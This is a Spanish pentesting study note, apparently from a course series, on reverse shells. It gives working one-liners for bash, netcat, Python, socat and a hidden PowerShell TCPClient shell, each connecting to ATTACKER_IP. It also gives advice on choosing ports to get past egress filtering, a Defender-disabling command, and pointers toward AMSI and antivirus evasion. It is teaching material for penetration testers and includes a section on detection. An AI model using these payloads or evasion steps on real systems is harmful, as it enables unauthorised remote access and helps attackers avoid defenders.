

---
tags:
  - Pentesting/Explotacion
  - Shells
  - Linux
  - Windows
Descripción: "En una reverse shell el atacante escucha y es el objetivo quien inicia la conexión saliente hacia él"
Fecha de actualización: 2026-07-18
Nota previa: "[[02 - Bind shells]]"
Nota siguiente: "[[04 - Introducción a payloads]]"
Area: "[[Shells y Payloads.base|Shells y Payloads]]"
---
---

<mark style="background: #ADCCFFA6;">En una `reverse shell` el **atacante escucha** y es el **objetivo quien inicia la conexión saliente** hacia él</mark>. Es la imagen especular de la [[02 - Bind shells|bind shell]] y, por un motivo puramente de red, la opción por defecto en pentesting real.



# Por qué se impone a la bind shell

<mark style="background: #FFB86CA6;">La conexión sale del objetivo, así que atraviesa el `NAT` y el firewall de entrada sin necesidad de ninguna regla de *ingress*</mark>. La mayoría de hosts internos pueden hablar hacia Internet (o hacia nuestra posición) aunque nadie pueda hablarles a ellos. <mark style="background: #8000E1A6;">Eso convierte a la reverse shell en la vía natural para casi cualquier acceso inicial</mark>.

El precio: depende del **egress filtering**. Si el firewall de salida solo permite ciertos puertos/destinos, la conexión no saldrá salvo que usemos un puerto permitido (más abajo).

> [!important]+ El listener SIEMPRE va primero
> Monta el listener **antes** de ejecutar el payload en el objetivo. Si el payload dispara y no hay nadie escuchando, la conexión se rechaza y —según el vector— puede que no tengas una segunda oportunidad.
> ```shell-session
> attacker$ nc -lvnp 443
> ```
> Mejor aún, `rlwrap nc -lvnp 443` (historial y edición de línea) o directamente `pwncat-cs -lp 443`, que estabiliza la shell sola ([[12 - Arsenal de herramientas]]).

# Reverse shells en Linux

El objetivo Linux rara vez tiene AV, así que los one-liners funcionan tal cual. Los imprescindibles:

```shell-session
# Bash puro — no necesita netcat, usa el "archivo" mágico /dev/tcp
target$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1

# Netcat con named pipe (cuando no hay -e)
target$ rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 443 >/tmp/f

# Python (casi siempre presente)
target$ python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call(["/bin/bash","-i"])'

# Socat — entrega una shell ya con PTY completo (la mejor opción si socat está)
target$ socat TCP:ATTACKER_IP:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
```

<mark style="background: #FFB8EBA6;">`socat` es superior porque asigna un `TTY` en el objetivo</mark>, evitando el upgrade manual — pero para la experiencia fluida completa (raw, sin doble-echo, `Ctrl+C` reenviado) captúralo con el **listener socat** `socat file:$(tty),raw,echo=0 tcp-listen:443` (ver [[08 - Shells interactivas - upgrade a TTY|nota 08]]), no con un `nc` pelado. El binario estático de socat cabe en cualquier transferencia.

# Reverse shells en Windows

El one-liner de PowerShell (variante del clásico de Nishang) abre un `TCPClient` y ejecuta con `iex` lo que reciba:

```powershell
powershell -nop -w hidden -c "$c=New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+'PS '+(pwd).Path+'> ';$sby=([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sby,0,$sby.Length);$s.Flush()}"
```

# Elegir el puerto: vencer el egress filtering

<mark style="background: #FF5582A6;">No uses un puerto arbitrario como 4444 (firma conocida de Metasploit): usa un puerto que el firewall de salida deje pasar</mark>. Los tres de oro:

- **443** (HTTPS): permitido casi siempre; además el tráfico cifrado despierta menos sospechas.
- **80** (HTTP): permitido casi siempre.
- **53** (DNS): a menudo abierto de par en par para salida.

Cuando ni eso sale, se recurre a *tunneling* sobre DNS/ICMP o a C2 con perfiles de tráfico legítimo (HTTPS con certificados válidos, redirectores) — territorio de [[12 - Arsenal de herramientas]] y del futuro trabajo de C2.

# Lo que ha envejecido mal: "desactiva el antivirus"

El módulo original resuelve el problema de Defender con:

```powershell
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true
```

> [!warning]+ Esto ya no funciona (2026)
> <mark style="background: #FFB86CA6;">Desde Windows 10 1903, `Tamper Protection` bloquea `Set-MpPreference -DisableRealtimeMonitoring` aunque seas administrador</mark>, y desactivar la protección deja un evento ruidoso (`Windows Defender 5001`). Más aún: el one-liner PowerShell de arriba, **en texto plano, lo mata `AMSI` antes de ejecutarse**. La realidad moderna no es *desactivar* el AV sino **evadirlo**: ofuscar el payload, saltar `AMSI` en memoria, usar payloads que no toquen disco o *loaders* firmados. Todo ello, con las técnicas actuales, en [[11 - Detección, prevención y evasión]]. Asumir que puedes apagar Defender con un comando es la trampa nº1 al pasar del lab al cliente real.

# Detección

Una reverse shell se delata por la **conexión saliente anómala**: un proceso que normalmente no habla por red (`powershell.exe`, `w3wp.exe`, `bash` hijo de un servicio) abriendo un socket hacia una IP externa. Los defensores vigilan `/dev/tcp` en línea de comandos (Linux auditd), procesos con *network egress* inesperado, y firmas de handshake (`JA3/JA4`) de listeners conocidos. Anticiparlo —y difuminarlo— es justo el trabajo de [[11 - Detección, prevención y evasión]].

> [!info]+ Generar payloads sin memorizarlos
> [revshells.com](https://www.revshells.com) genera al vuelo cualquiera de estos one-liners (bash, nc, socat, PowerShell, Python…) rellenando IP y puerto, e incluye variantes ya preparadas para copiar. Es la referencia de facto; el detalle de generación con herramientas viene en [[04 - Introducción a payloads]] y [[05 - Payloads con Metasploit y MSFvenom]].
